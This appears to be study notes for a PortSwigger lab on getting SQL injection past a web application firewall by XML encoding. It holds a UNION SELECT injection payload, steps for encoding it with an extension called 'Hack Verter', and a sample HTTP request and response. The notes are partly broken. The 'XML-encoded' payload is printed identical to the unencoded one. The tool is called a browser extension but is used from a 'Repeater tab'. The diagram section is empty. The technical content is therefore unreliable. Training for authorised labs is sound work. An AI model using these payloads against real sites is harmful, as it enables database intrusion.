

## Techniques to Bypass Web Application Firewalls

Web Application Firewalls (WAFs) are designed to protect web applications from various types of attacks, including SQL Injection. However, attackers often find ways to bypass these protections. One such technique is using XML encoding to obfuscate SQL Injection payloads.

### What is XML Encoding?

XML encoding involves converting special characters into their corresponding XML entity references. This can help bypass WAFs that rely on detecting specific patterns or keywords in the input data.

#### Example of XML Encoding

Consider the following SQL Injection payload:

```sql
' UNION SELECT NULL -- 
```

Using XML encoding, this payload can be transformed into:

```xml
' UNION SELECT NULL --
```

### Using Hack Verter Extension

Hack Verter is a browser extension that helps in encoding and decoding various types of payloads, including XML encoding. This can be particularly useful in bypassing WAFs that detect certain SQL Injection patterns.

#### Installing Hack Verter

To install Hack Verter, follow these steps:

1. Open your browser and navigate to the extension store.
2. Search for "Hack Verter".
3. Click on the extension and then click on "Install".

Once installed, you can use Hack Verter to encode your SQL Injection payloads.

#### Using Hack Verter

1. Highlight your SQL Injection payload in the Repeater tab.
2. Right-click and select "Extensions" > "Hack Verter" > "Encode".
3. Choose the appropriate encoding option, such as "Hack Entities".

### Example of Bypassing WAF with XML Encoding

Let's consider the scenario described in the lecture transcript:

1. **Initial Payload**:
   ```sql
   ' UNION SELECT NULL -- 
   ```

2. **Encoded Payload**:
   ```xml
   ' UNION SELECT NULL --
   ```

3. **Sending the Encoded Payload**:
   - Send the encoded payload through the Repeater tab.
   - Observe the response to ensure the WAF does not detect the attack.

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

#### HTTP Request

```http
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

query=' UNION SELECT NULL --
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Nov 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <h1>Search Results</h1>
    <p>No products found.</p>
</body>
</html>
```

### Diagramming the Attack Chain



---
<!-- nav -->
[[02-How to Prevent  Defend Against SQL Injection|How to Prevent  Defend Against SQL Injection]] | [[Web Security (PortSwigger)/02-SQL Injection/18-Lab 17 SQL injection with filter bypass via XML encoding/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/18-Lab 17 SQL injection with filter bypass via XML encoding/04-Practice Questions & Answers|Practice Questions & Answers]]
